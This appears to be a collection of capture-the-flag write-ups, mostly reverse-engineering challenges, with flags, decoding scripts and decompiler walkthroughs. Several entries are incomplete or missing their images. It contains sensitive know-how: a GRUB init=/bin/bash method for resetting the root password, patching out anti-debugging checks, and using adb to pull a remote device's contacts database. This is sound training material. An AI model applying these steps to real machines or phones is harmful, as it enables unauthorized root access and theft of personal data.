


# Problems

### **Problem - 01 :**

I wonder what this really is…

[https://drive.google.com/file/d/1LRRRuCfNmAxK-9aDFuAOcVXv0iR6RvXm/view?usp=drive_link](https://drive.google.com/file/d/1LRRRuCfNmAxK-9aDFuAOcVXv0iR6RvXm/view?usp=drive_link)

> ''.join([chr((ord(flag[i]) << 8) + ord(flag[i + 1])) for i in range(0, len(flag), 2)])
> 

**Solution :**




That means this is not any type of language . 

Whatever , from the python line code we understand that ,

we are iterating the text by adding 2 times each making it into one word by adding the values of the 2 words of the text .

In that , 1st letter is left shifting to the left 8 times  that means 1101 character now will become 110100000000 . After that we are adding  the second character‘s value  which is also 8 bit highest .

Suppose the 2nd char is 110101 . So,after adding it (110100000000 + 110101) = 110100110101

now our work is to retrive the 2 charecters by the given one charecter .

> 1st char = chr(110100110101 >> 8) = chr (1101)
> 

> 2nd char = chr(110100110101 & 11111111) = chr (110100110101 & 255) = chr (110101)
> 

```python
flag = ""
with open("enc", "r", encoding="utf-8", errors="ignore") as f:
    line = f.read()
    for i in line:
        val = ord(i)
        flag += chr(val >> 8) + chr(val & 255)

print(flag)
```

Or, 


### **Problem - 02 :**

Your mission is to enter Dr. Evil's laboratory and retrieve the blueprints for his Doomsday Project. The laboratory is protected by a series of locked vault doors. Each door is controlled by a computer and requires a password to open. Unfortunately, our undercover agents have not been able to obtain the secret passwords for the vault doors, but one of our junior agents obtained the source code for each vault's computer! You will need to read the source code for each level to figure out what the password is for that vault door. As a warmup, we have created a replica vault in our training facility. The source code for the training vault is here: [VaultDoorTraining.java](https://jupiter.challenges.picoctf.org/static/1afdf83322ee9c0040f8e3a3c047e18b/VaultDoorTraining.java)

[https://drive.google.com/file/d/1xT1likMHOpUueQKaNjupcXHQpRYdDdzJ/view?usp=drive_link](https://drive.google.com/file/d/1xT1likMHOpUueQKaNjupcXHQpRYdDdzJ/view?usp=drive_link)

**Solution :**

.class is the executed object version of .java file . Now , let’s decompile it using ghidra .


From the code we understand that the passwords first part should be “picoCTF{” and the foremost last char can be anything because “picoCTF{”  is joined with this function (text = Main_text.substring(iVar2,iVar3 + -1);) which is ignoring the last character 

After that it is calling the “checkpassword function” and in the checkpassword function it has ,


That means the middle part password is “ w4rm1ng_Up_w1tH_jAv4_eec0716b713 ” .We also have to insert one extra last char to the last because in checkpassword the we not giving the “picoCTF{” and “last char” for checking but rest of the part .So, the flag will be ,

> picoCTF{w4rm1ng_Up_w1tH_jAv4_eec0716b713)
> 

in here last char should be “}” as tradition so we gave it , but in the execution any last char will be accepted

Type 

```bash
sudo update-alternatives --config java
```

and choose the latest openjdk and after the work turn back the previous type because that previous version is needed to run BurpsuitPro


### **Problem - 03 :**

Just a wee-little baby re challenge.

[https://drive.google.com/file/d/1SbtaRX0VjEtM8tMCDWEgyVl94TNo6-W4/view?usp=drive_link](https://drive.google.com/file/d/1SbtaRX0VjEtM8tMCDWEgyVl94TNo6-W4/view?usp=drive_link)

**Solution :**

open ghidra and import that ELF file and go to the .data function ,



Or ,


Flag - - - > > > wctf{n1c3_oNe_y0u_Found_m3}

### **Problem - 04 :**

This challenge will introduce you to 'Anti-Debugging.' Malware developers don't like it when you attempt to debug their executable files because debugging these files reveals many of their secrets! That's why, they include a lot of code logic specifically designed to interfere with your debugging process.Now that you've understood the context, go ahead and debug this Windows executable!This challenge binary file is a Windows console application and you can start with running it using cmd

on Windows.Challenge can be downloaded

[here](https://artifacts.picoctf.net/c_titan/87/WinAntiDbg0x100.zip)

. Unzip the archive with the password “ picoctf “

[https://drive.google.com/file/d/1zjC8PCT0All_kaRS7TZ498zZdlzhPE8P/view?usp=drive_link](https://drive.google.com/file/d/1zjC8PCT0All_kaRS7TZ498zZdlzhPE8P/view?usp=drive_link)

**Solution :**

Note , it is windows executable file for this in linux this will not executed . We will use here 

” binary ninja ” windows version to solve this challenge ,

open the file in binary ninja and after that ,


then , launce it 


That means , without debugger this file can’t be executed and we have to bypass the inner conditions to get the flag ,

Now , to get the main function quickly lets find the first executed string from the terminal ,


If we analysis this source code of main function , we will realize that if we are able to toogle the            “ IsDebuggerPresent ” to not zero. But if we change the main function it will destroy the flag as the question says . So , we have to change the assembly code which is responsible for jump.For this , just select the line code and change it to disassembly ,


Now , save as the file in the same directory and run it again in binary ninja ( basically debug it again )


picoCTF{d3bug_f0r_th3_Win_0x100_e4a066b1}

### **Problem - 05 :**

If you have solved WinAntiDbg0x100, you'll discover something new in this one. Debug the executable and find the flag!This challenge executable is a Windows console application, and you can start by running it using Command Prompt on Windows.This executable requires admin privileges. You might want to start Command Prompt or your debugger using the 'Run as administrator' option.Challenge can be downloaded [here](https://artifacts.picoctf.net/c_titan/59/WinAntiDbg0x200.zip)

. Unzip the archive with the password “ picoctf ”

[https://drive.google.com/file/d/1rTmS8DWkgPT6iNpxOJALsRF76_8JU8X3/view?usp=drive_link](https://drive.google.com/file/d/1rTmS8DWkgPT6iNpxOJALsRF76_8JU8X3/view?usp=drive_link)

**Solution :**

Run in the binary ninja and do same task like the previous one example ,


If we read the main function then we will realize that the problem is in this line code ,
00821830              if (edx_2 == 0 && eax_8 == 0)

Because , this condition was running at that time for this in console the ouotput was showing

 “ ### Oops! The debugger was detected. Try to bypass this check to get the flag! ”


Now , in here eaax_8 variable is by default 0 in the declaration but when the debugger is present condition is launched it turn it to 1 by this the flag’s if condition is not running. So, first change the eax_8 ≠ 0 in the condition ,


Now , save this again debug this but you will see again the “ Oops! The debugger was detected. Try to bypass this check to get the flag! ” is showing in the terminal . That means the if condition is not still fully satisfied .


So , that means in this condition “ if (edx_2 == 0 && eax_8 != 0) ” the value of the edx_2 == 0 is not true . If we look closely in the code we will see that eax_2 ‘s value is being gotten by this function . So, we have to stop the jump of this function so that the  value of the eax_2 is not change .we will do this by disassembly it .


Now , just toggle the condition ,


now , save and debug it ,


picoCTF{0x200_debug_f0r_Win_e6b68f6e}

### **Problem - 06 :**

**Solution :**

### **Problem - 07 :**

Reverse this linux executable?

[binary](https://artifacts.picoctf.net/c_titan/20/out)

[https://drive.google.com/file/d/1IICW1PnphX3r6zPrXljqJ3Lo3Dm1lyY-/view?usp=drive_link](https://drive.google.com/file/d/1IICW1PnphX3r6zPrXljqJ3Lo3Dm1lyY-/view?usp=drive_link)

**Solution :**


That means the file is packed with UPX .

> [**UPX** (Ultimate Packer for Executables) is a free and open-source executable packer that supports various file formats across different operating systems1](https://en.wikipedia.org/wiki/UPX). It achieves an excellent compression ratio and offers very fast decompression. [When you use UPX to compress an executable, it doesn’t introduce memory overhead or other drawbacks for most of the supported formats because of its in-place decompression2](https://www.mankier.com/1/upx). If you’re dealing with executables and want to reduce their size, UPX can be a handy tool to explore! 😊
> 


Or, After the decompress by UPX we can see the source code in binary ninja or ghidra .

You will see the flag in the source code .

### **Problem - 08 :**

This binary is putting together some important piece of information... Can you uncover that information?Examine this

[file](https://artifacts.picoctf.net/c_titan/189/bin)

. Do you understand its inner workings?

[https://drive.google.com/file/d/1oGGWOzG6vtRgeV7M3oKXhJV4WvMTuyit/view?usp=drive_link](https://drive.google.com/file/d/1oGGWOzG6vtRgeV7M3oKXhJV4WvMTuyit/view?usp=drive_link)

**Solution :**


Now , reverse the file and after analyzing the code of it we realize  ,

var_248 = " picoCTF{wELF_d0N3_mate_ “ was concatenating  with some conditions with some variable char which is taken from  [ var_228 = " 95a3cedb6 “ ]

So , if we are able to find the address in which the end of concatenation we will be able to get the flag 

from binary bandit the location is ,


Now , find that location in gdb ,


But , gdb’s addresses positions are not quite equal to the binary ninja’s addresses . So , lets search the addresses in the ghidra ,


If you see in the “ 00101865 “ location in the EAX reg somethig is loaded it should be the ultimate flag.

Now , let’s find it in gdb ,


Flag = picoCTF{wELF_d0N3_mate_93a9cb95}

### **Problem - 09 :**

I have a friend that enjoys coding and he hasn't stopped talking about a snake recentlyHe left this [file](https://artifacts.picoctf.net/c_titan/29/snake)

on my computer and dares me to uncover a secret phrase from it. Can you assist?

[https://drive.google.com/file/d/1gBPmOcmQD_oLz13nd0cWD1zDDM8U33vL/view?usp=drive_link](https://drive.google.com/file/d/1gBPmOcmQD_oLz13nd0cWD1zDDM8U33vL/view?usp=drive_link)

**Solution :**

In this we get an ascii file we gave it to chatgpt and told it to make the wxact python code ,


According to Chatgpt ,

Here's the equivalent Python code based on the disassembled instructions provided:

```python
# Step 1: Initialize input_list with the provided constant values
input_list = [4, 54, 41, 0, 112, 32, 25, 49, 33, 3, 0, 0, 57, 32, 108, 23,
              48, 4, 9, 70, 7, 110, 36, 8, 108, 7, 49, 10, 4, 86, 43, 105,
              114, 91, 0, 71, 106, 124, 93, 78]

# Step 2: Initialize key_str with the string 'J'
key_str = 'J'

# Step 3 to 6: Concatenate additional strings to key_str
key_str = '_' + key_str
key_str += 'o'
key_str += '3'
key_str = 't' + key_str  # This was swapped to align with the sequence of steps

# Step 9: Convert each character in key_str to its ASCII value
key_list = [ord(char) for char in key_str]

# Step 11 to 12: Ensure key_list is at least as long as input_list by extending it if necessary
while len(key_list) < len(input_list):
    key_list.extend(key_list)

# Step 15: XOR each element in input_list with the corresponding element in key_list
result = [a ^ b for a, b in zip(input_list, key_list)]

# Step 18: Convert the XOR result back to characters and join them into a single string
result_text = ''.join(map(chr, result))

# Return the result (in Python, we'd just print it)
print(result_text)
```

Explanation:

- **Step 1:** `input_list` is initialized with the given constants.
- **Step 2:** `key_str` starts with the value `'J'`.
- **Step 3 to 6:** Several string concatenations are performed on `key_str`, building it up with additional characters.
- **Step 9:** `key_list` is generated by converting each character in `key_str` to its ASCII value using `ord()`.
- **Step 11 to 12:** The `key_list` is extended to ensure it is at least as long as `input_list`.
- **Step 15:** Each value in `input_list` is XORed with the corresponding value in `key_list`.
- **Step 18:** The XOR results are converted back to characters using `chr()` and concatenated into a single string.

IF we run the code we will not get any useful string . But , we understand that there is a secret key which size in 7 characters and it was repeating concatenating it through the size of the input_list and after that x-or it . 

Whatever the key is not correctly given i guese , so i used a trick because XOR is reversable, we know that flag starts with “*picoCTF{*” so i put this as a key we get:


As we see “ t_Jo3t_JQjcozt*l@mj)D:bs∟nReG☻m↕☻2c()( ” the first 7 characters are “ t_Jo3t_ ” let’s try it as key .

But putting 7 chars we didn’t found our flag . So , let’s slightly reduce it until we get the flag .


Flag = picoCTF{N0t_sO_coNfus1ng_sn@ke_68433562}

### **Problem - 10 :**

A classic Crackme. Find the password, get the flag!Binary can be downloaded

[here](https://artifacts.picoctf.net/c_titan/104/crackme100)

.Crack the Binary file locally and recover the password. Use the same password on the server to get the flag!Access the server using

```
nc titan.picoctf.net 56304
```

**Solution :**


### **Problem - 11 :**

I made a cool program to show the flag, but i forgot to output it! Now that I lost the source, I can't seem to remember the flag. Can you help me find it?

[https://drive.google.com/file/d/1RQ4TVhTJCqjEGUTyenBTXZJ0DInY5WPe/view?usp=drive_link](https://drive.google.com/file/d/1RQ4TVhTJCqjEGUTyenBTXZJ0DInY5WPe/view?usp=drive_link)

**Solution :**


Go to online reverse decompiler [Dogbolt](https://dogbolt.org/)


### **Problem - 12 :**

name : Knight's Droid

Description :

For ages, a cryptic mechanical guardian has slumbered beneath the Knight’s Citadel. Some say it holds powerful secrets once wielded by ancient code-wielding Knights. Many have tried to reactivate the droid and claim its hidden knowledge—yet none have returned victorious. Will you be the one to solve its riddles and awaken this legendary machine?

[https://drive.google.com/file/d/1QFtj98X6zOGhpJ1j8E0uWyR6Qy0kF4rr/view?usp=drive_link](https://drive.google.com/file/d/1QFtj98X6zOGhpJ1j8E0uWyR6Qy0kF4rr/view?usp=drive_link)

**Solution :**


Run “ jadx-gui “ →


Ok ,, we see Function " verifyFlag " open it ,


we Found "GYPB{*ykjcnwp5_GJECDP_u0q_c0p_uKqN_Gj1cd7_zN01z*}"


Flag :`KCTF{_congrat5_KNIGHT_y0u_g0t_yOuR_Kn1gh7_dR01d_}`

### **Problem - 13 : ( GRUB Method )**

Name : Secret File

Desciption :

My friend's company's employees faced some attacks from hackers. Siam is a very close person to the company owner. Every employee knows that if Siam tells our CEO about anything, he can provide assistance without any hesitation. So, all employees made a statement, and here is the statement: "Triggers don't always require a spark. Sometimes, a simple change can set the stage for transformation. Where might such a trigger reside?" And guess what—the CEO granted him permission to hire an ethical hacker. So, he gave me that finding part. Are you able to help me with this issue?

Note: There are almost six users in their company, so anyone can be a victim. Thank you in advance.

Findout that One of the user hide some commercial data. Are you able to see that data?

Flag Format: KCTF{value_here} and replace space with underscore (_)

Username : siam      Password : pmsiam

**Solution :**


we have file : kali-linux-2024.ova

and login with username siam but we dont have any "sudo Privilege"

So I changed the root password using GRUB

***GRUB Method to Gain Root Access***

**Steps to Change Root Password via GRUB**:

1. **Reboot the System**:
    - Restart the virtual machine.
2. **Interrupt GRUB**:
    - During the boot process, **press `Shift` (on some systems) or `Esc` (on others)** to bring up the **GRUB menu**.
3. **Edit the GRUB Boot Parameters**:
    - Select the boot option (usually the default one for Kali Linux) and press **`e`** to edit the GRUB boot parameters.
    - You’ll see the GRUB configuration, which will include a line starting with `linux`.
4. **Modify Boot Parameters**:
    - At the end of the `linux` line, add the following:
        
        ```jsx
        init=/bin/bash
        ```
        
    - This tells the system to boot directly into a **Bash shell** instead of the usual login sequence.
5. **Boot with the Modified Parameters**:
    - Press **Ctrl + X** or **F10** to boot with the new parameters.
6. **Change the Root Password**:
    - After the system boots into a shell, you will have root access without needing a password.
    - Now, you can change the root password by running:
        
        ```bash
        passwd
        ```
        
    - Enter the new password when prompted.
7. **Reboot Normally**:
    - After changing the password, type:
        
        ```bash
        exec /sbin/init
        ```
        
    - This will continue the boot process normally, and you should be able to log in with the new root password.
8. **Login as Root**:
    - After the reboot, log in as the root user using the new password.


```
linux /boot/vmlinuz-6.11.2-amd64 root=UUID=... ro quiet splash init=/bin/bash
```

and

```
$ mount -o remount,rw /
$ passwd
$ root
$ exec /sbin/init
```

Ok .. Login with " root " and find 6 users


we find 2 file in "/home/bob/Downloads"


ok we found : PartialPass: Null_


and try to unzip it :


Ok Find Full password : Null_V4luE_M3


Done

### **Problem - 14 :**


[https://drive.google.com/file/d/1PxTFz_OxMJWuqZ-7eO4mmAZXf9rL_dNp/view?usp=drive_link](https://drive.google.com/file/d/1PxTFz_OxMJWuqZ-7eO4mmAZXf9rL_dNp/view?usp=drive_link)

**Solution :**

**"Reversing" the APK**

We were performing this challenge on a Kali box, so our preferred way of reversing the APK was to download the APK to the box and use apktool.

```
> wgethttps://ctfd.uctf.ir/files/fd77af683a2df14b78990c08cc3c1ccb/VerySuperMario.apk
> apktool d mario.apk
```

The output of this is a file structure .


Based on the file structure, this is obviously a full game of Mario (Orginal mario game) , not something written for this challenge ; this led us to look into the game more holistically instead of just guessing.

**The DIFF report**

The team's first instinct was to pull a DIFF report on the APK given to us by the challenge and the original SuperMario Android APK that can be found [here](https://github.com/maheshkurmi/-Android-Super-Mario). 

[https://drive.google.com/file/d/1vJoSQQHB01py1JDTe9W3Mix8rAYocZh-/view?usp=drive_link](https://drive.google.com/file/d/1vJoSQQHB01py1JDTe9W3Mix8rAYocZh-/view?usp=drive_link)

To reveal all the juicy secrets To run the diff, we simply unpacked both apps via apktool and ran a diff using diff.


Performing that DIFF revealed a difference in assets/maps/world1/map1/map3.txt to the map3.txt in the original APK .


This was the beginning of the end.


We compared the two binary files, which wouldn't open in a readable format anywhere other than in VSCode. VSCode still yells at you for trying to open a binary.... and the output isn't very pretty.


But, as you may notice. This is an "ascii" representation of the level. Scrolling over to the right, we see something that doesn't exist in the original.


The "NNNNNN NNNNNN=NNNNNNNNNNN" was the "Bowser Pit" as promised by the challenge text. That WILEY = was the only unique character in the whole map. That must be it.

Let's go see what it is.

**Running in Android Studio and peeking at the logs**

The first step was to open the APK in Android Studio using the "Profile or Debug" feature. This would allow us to run the APK in debug mode.


Once opened in Android Studio, I want to play the game. If you have never used Android Studio to run an Android emulator to test, debug, or develop an Android app, you might have to set up an emulated device first. Please use the [Android Studio docs](https://developer.android.com/studio/run/emulator) for this. You can also [use your Android phone](https://developer.android.com/studio/run/device) if you wish.

Once you have the emulator running, you can utilize the built-in logcat feature of Android Studio. It's an immensely powerful debug console that will capture all the device logs while running the emulator (or app on your phone.)


**Getting the flag**

[https://drive.google.com/file/d/1e3mTZgT8yh7uSxo0tG6-3U_GWOcQp5Bj/view?usp=drive_link](https://drive.google.com/file/d/1e3mTZgT8yh7uSxo0tG6-3U_GWOcQp5Bj/view?usp=drive_link)

When we played World 1, we ran over to the promised Bowser Pit and were greeted by many browsers and.... just a question mark block... Well, it's still the only unique block on the map, so let's dive in head first. Literally, let's go break the box.

Lo-and-behold:


The FLAG!! It's sitting right there on the console (ignore all the death, please...).

`Flag: UCTF{Sa33D_Mar0uf_1s_7h3_MAR10}`

### **Problem - 15 : ( Project Meme )**

There are three parts of the flag hide by tacocat. Look precisely to find and gather them all to find the complete flag .

[https://drive.google.com/file/d/1ks7gqZ1ZshJUfOc_UAg4e1X7xvGER-vQ/view?usp=drive_link](https://drive.google.com/file/d/1ks7gqZ1ZshJUfOc_UAg4e1X7xvGER-vQ/view?usp=drive_link)

Solution :

Real name of game is tacocat as the app says there is one flag in app that is divied into 3 parts;

1. First part in hint of a button in "Main Activity" competitor should unzip the app and then find it.
2. Second part is in assets file on app also should unzip the app and find the flag in svg file of the flag.
3. Third part of flag is a function in **c++** that should be run to get flag. There is a `if(flase)` competitur should use smali code injection to make that condtion to `true` and get the flag.

After finding each part and insert them in app and app will tell them which part of the flag he/she found (first, second, third).

Or →


After extracting the rar open that “.apk” file with “jadx-gui” and you will findout the 3 hashes →


Flag → uctf{uctf_UrmiaDesert}

### **Problem - 16 : ( Flutter QRCode )**

There is a BOMB in city hall and a code to disarm the BOMB is hidden in this Application. Your goal is to find this code to save city.

[https://drive.google.com/file/d/15Q-jYXPAmBick4vD5ZknCXimNS3UzcDV/view?usp=drive_link](https://drive.google.com/file/d/15Q-jYXPAmBick4vD5ZknCXimNS3UzcDV/view?usp=drive_link)

Solution :

To solve the Problem the attendant should install the app on their phone at first. then they should decompile apk using apktools .


Nothing , juicy directory found from that search “find” .

After that they should go to path “ qrCode\lib\arm64-v8a ” in terminal and use command strings to get strings in the file named libapp.so so they can query in the strings list. This phase has multiple ways to get the specefic string. for example :


Now they should send one of these two strings as SMS to the device that has application installed .


After this phase they should see their device opens url in Browser. This url contains QR code image that they should open this on another device which also should have installed that .apk because they need to scan it . Open the web cam in android simulator .


```python
C:\Users\VICTUS\AppData\Local\Android\Sdk\emulator>emulator -list-avds
Pixel_8_API_35

C:\Users\VICTUS\AppData\Local\Android\Sdk\emulator>emulator -avd Pixel_8_API_35 -camera-back webcam0 -read-only
```


After Scanning the QR code they should hear voice of voice assistant of OS pronouncing the flag so they should write it down.

**Flag →** 

```bash
uctf{Three-Domes-Urmia}
or
uctf{three-domes-urmia}
```

### **Problem - 17 :**

Can you unlock the secrets hidden in the echoes of ancient code?

[https://drive.google.com/file/d/1jpAMqynIEC8Pe_wm2uM-MbcZwlEcpGle/view?usp=drive_link](https://drive.google.com/file/d/1jpAMqynIEC8Pe_wm2uM-MbcZwlEcpGle/view?usp=drive_link)

Solution :

Give that .exe file to dogbolter site and analyze the “Hex-Rays” version . You will see that there is multiple if loop condition and that loop will continue if in each step’s condition is true . So , we tried up a idea that why not crack that input serial wise by considering each condition true and finally get the ultimate string . And this the ultimate

```python
v4 = [0] * 54

formula = """((8 * (v4[0] ^ 0x12) + 40) | (((v4[0] ^ 0x12) + 5) >> 5)) != 0x262
((8 * (v4[1] ^ 0x23) + 56) | (((v4[1] ^ 0x23) + 7) >> 5)) != 0x33B
((8 * (v4[2] ^ 0x34) + 24) | (((v4[2] ^ 0x34) + 3) >> 5)) != 0x31B
((8 * (v4[3] ^ 0x45) + 16) | (((v4[3] ^ 0x45) + 2) >> 5)) != 0x28
((8 * (v4[4] ^ 0x56) + 72) | (((v4[4] ^ 0x56) + 9) >> 5)) != 0x1B1
((8 * (v4[5] ^ 0x67) + 32) | (((v4[5] ^ 0x67) + 4) >> 5)) != 0x1D9
((8 * (v4[6] ^ 0x78) + 48) | (((v4[6] ^ 0x78) + 6) >> 5)) != 0xF8
((8 * (v4[7] ^ 0x89) + 8) | (((v4[7] ^ 0x89) + 1) >> 5)) != 0x5ED
((8 * (v4[8] ^ 0x9A) + 24) | (((v4[8] ^ 0x9A) + 3) >> 5)) != 0x58D
((8 * (v4[9] ^ 0xAB) + 40) | (((v4[9] ^ 0xAB) + 5) >> 5)) != 0x6F6
((8 * (v4[10] ^ 0xBC) + 16) | (((v4[10] ^ 0xBC) + 2) >> 5)) != 0x6EE
((8 * (v4[11] ^ 0xCD) + 56) | (((v4[11] ^ 0xCD) + 7) >> 5)) != 0x585
((8 * (v4[12] ^ 0xDE) + 32) | (((v4[12] ^ 0xDE) + 4) >> 5)) != 0x61E
((8 * (v4[13] ^ 0xEF) + 24) | (((v4[13] ^ 0xEF) + 3) >> 5)) != 0x6FE
((8 * (v4[14] ^ 0xF0) + 40) | (((v4[14] ^ 0xF0) + 5) >> 5)) != 0x5A5
((8 * (v4[15] ^ 1) + 16) | (((v4[15] ^ 1) + 2) >> 5)) != 0x2AA
((8 * (v4[16] ^ 0x12) + 72) | (((v4[16] ^ 0x12) + 9) >> 5)) != 0x151
((8 * (v4[17] ^ 0x23) + 32) | (((v4[17] ^ 0x23) + 4) >> 5)) != 0x2CA
((8 * (v4[18] ^ 0x34) + 48) | (((v4[18] ^ 0x34) + 6) >> 5)) != 0x2BA
((8 * (v4[19] ^ 0x45) + 8) | (((v4[19] ^ 0x45) + 1) >> 5)) != 0x1C1
((8 * (v4[20] ^ 0x56) + 24) | (((v4[20] ^ 0x56) + 3) >> 5)) != 0x141
((8 * (v4[21] ^ 0x67) + 40) | (((v4[21] ^ 0x67) + 5) >> 5)) != 0x2CA
((8 * (v4[22] ^ 0x78) + 16) | (((v4[22] ^ 0x78) + 2) >> 5)) != 0x149
((8 * (v4[23] ^ 0x89) + 56) | (((v4[23] ^ 0x89) + 7) >> 5)) != 0x61E
((8 * (v4[24] ^ 0x9A) + 32) | (((v4[24] ^ 0x9A) + 4) >> 5)) != 0x73F
((8 * (v4[25] ^ 0xAB) + 48) | (((v4[25] ^ 0xAB) + 6) >> 5)) != 0x666
((8 * (v4[26] ^ 0xBC) + 8) | (((v4[26] ^ 0xBC) + 1) >> 5)) != 0x6FE
((8 * (v4[27] ^ 0xCD) + 24) | (((v4[27] ^ 0xCD) + 3) >> 5)) != 0x52D
((8 * (v4[28] ^ 0xDE) + 40) | (((v4[28] ^ 0xDE) + 5) >> 5)) != 0x5BD
((8 * (v4[29] ^ 0xEF) + 16) | (((v4[29] ^ 0xEF) + 2) >> 5)) != 0x444
((8 * (v4[30] ^ 0xF0) + 56) | (((v4[30] ^ 0xF0) + 7) >> 5)) != 0x4D4
((8 * (v4[31] ^ 1) + 32) | (((v4[31] ^ 1) + 4) >> 5)) != 0x313
((8 * (v4[32] ^ 0x12) + 48) | (((v4[32] ^ 0x12) + 6) >> 5)) != 0x2EA
((8 * (v4[33] ^ 0x23) + 8) | (((v4[33] ^ 0x23) + 1) >> 5)) != 0x2E2
((8 * (v4[34] ^ 0x34) + 24) | (((v4[34] ^ 0x34) + 3) >> 5)) != 0x2A2
((8 * (v4[35] ^ 0x45) + 40) | (((v4[35] ^ 0x45) + 5) >> 5)) != 0x58
((8 * (v4[36] ^ 0x56) + 16) | (((v4[36] ^ 0x56) + 2) >> 5)) != 0x129
((8 * (v4[37] ^ 0x67) + 56) | (((v4[37] ^ 0x67) + 7) >> 5)) != 0xD0
((8 * (v4[38] ^ 0x78) + 32) | (((v4[38] ^ 0x78) + 4) >> 5)) != 0xA8
((8 * (v4[39] ^ 0x89) + 48) | (((v4[39] ^ 0x89) + 6) >> 5)) != 0x767
((8 * (v4[40] ^ 0x9A) + 24) | (((v4[40] ^ 0x9A) + 3) >> 5)) != 0x7BF
((8 * (v4[41] ^ 0xAB) + 40) | (((v4[41] ^ 0xAB) + 5) >> 5)) != 0x7CF
((8 * (v4[42] ^ 0xBC) + 16) | (((v4[42] ^ 0xBC) + 2) >> 5)) != 0x777
((8 * (v4[43] ^ 0xCD) + 56) | (((v4[43] ^ 0xCD) + 7) >> 5)) != 0x828
((8 * (v4[44] ^ 0xDE) + 32) | (((v4[44] ^ 0xDE) + 4) >> 5)) != 0x56D
((8 * (v4[45] ^ 0xEF) + 48) | (((v4[45] ^ 0xEF) + 6) >> 5)) != 0x484
((8 * (v4[46] ^ 0xF0) + 8) | (((v4[46] ^ 0xF0) + 1) >> 5)) != 0x41C
((8 * (v4[47] ^ 1) + 24) | (((v4[47] ^ 1) + 3) >> 5)) != 0x30B
((8 * (v4[48] ^ 0x12) + 40) | (((v4[48] ^ 0x12) + 5) >> 5)) != 0x129
((8 * (v4[49] ^ 0x23) + 16) | (((v4[49] ^ 0x23) + 2) >> 5)) != 0xA8
((8 * (v4[50] ^ 0x34) + 56) | (((v4[50] ^ 0x34) + 7) >> 5)) != 0x68
((8 * (v4[51] ^ 3) + 40) | (((v4[51] ^ 3) + 5) >> 5)) != 0x1E1
((8 * (v4[52] ^ 0xBE) + 24) | (((v4[52] ^ 0xBE) + 3) >> 5)) != 0x515
((8 * (v4[53] ^ 0xFE) + 48) | (((v4[53] ^ 0xFE) + 6) >> 5)) != 0x44C"""

formula = formula.split("\n")

flag = []

for i in range(len(formula)):  # Iterate through each formula (for each character)
    for j in range(256):       # Test all possible byte values (0–255)
        v4[i] = j              # Assign the current test value to v4[i]
        if eval(formula[i]) == False:  # Check if the condition is satisfied
            flag.append(j)     # Add the solved character to the flag
            print(''.join(chr(i) for i in flag))  # Print the partial flag
            break              # Move to the next character once solved

```

Flag → UCTF{Pa54rgda3_R3vers3_5ymbolic_ExeCution_P0wer_2024!}

### **Problem - 18 : ( Tart )**

"I've hidden my most confidential notes within the contacts on my phone. But can you uncover them?"

The secrets are well-guarded, and only the most determined will succeed. To begin your investigation, explore [tart.uctf.ir:5554](http://tart.uctf.ir:5554/). The journey to reveal the truth starts now.

[https://drive.google.com/file/d/1jw-FxO2Uo61IwEEg28uVP9yPjbnQhZ3b/view?usp=drive_link](https://drive.google.com/file/d/1jw-FxO2Uo61IwEEg28uVP9yPjbnQhZ3b/view?usp=drive_link)

Solution :

1. **Connect to the Device Using `adb`**:

- The Android Debug Bridge (`adb`) allows you to communicate with the Android device.
- Connect to the device using:
    
    ```bash
    adb connect tart.uctf.ir:5554
    ```
    

2. **Take a Backup of the Contacts App**:

- Use `adb` to back up the contacts app. This allows you to analyze its data offline.
    
    ```bash
    adb backup -f contacts_backup.ab com.android.providers.contacts
    ```
    
- The `f` option specifies the backup file, and `com.android.providers.contacts` is the package name for the contacts app .

3. **Extract the Contacts Database**:

- Alternatively, directly pull the database file from the device :

Deepseek AI’s response ,


**Extract Contact Information**:

- Use a SQLite browser or command-line tool to open the `contacts2.db` file.
- The relevant tables for contact information are:
    - `contacts`: Contains basic contact information.
    - `raw_contacts`: Links contacts to their raw data.
    - `data`: Stores the actual contact details (e.g., phone numbers, emails).
    - `mimetypes`: Defines the type of data (e.g., phone, email).

4. **Analyze the Database**:


- Use a database management tool like **SQLite** to open and explore the `contacts2.db` file:
    
    ```bash
    sqlite3 contacts2.db
    ```
    
- Query the table `raw_contacts` to search for the hidden notes:
    
    ```sql
    SELECT * FROM raw_contacts;
    ```
    

5. **Retrieve the Flag**:

- From the query output, locate the flag embedded in the contacts data. For this challenge, the flag is:
    
    ```
    UCTF{M3ym4nd_V1ll4ge}
    ```
    

### **Problem - 19 : ( Drag n Zip )**

Finding the Key in "Drag n Zip"

Welcome to the "Drag n Zip" CTF challenge! In this challenge, your task is to dive into an Android game named Drag n Zip and retrieve a hidden flag. The flag is encrypted using the AES protocol, and your mission is to decrypt it and find hidden treasure of Hamandan.

**Game Details:**

- **Game Name:** Drag n Zip
- **Link to Game:** [Drag n Zip on Google Play](https://play.google.com/store/apps/details?id=com.cluckeyetea.dragnzip)

Solution :

**Steps to Solve:**

1. **Download and Install the Game:**
    
    Start by downloading the "Drag n Zip" game from the provided link. Paste that in apkpure and download the apk 
    
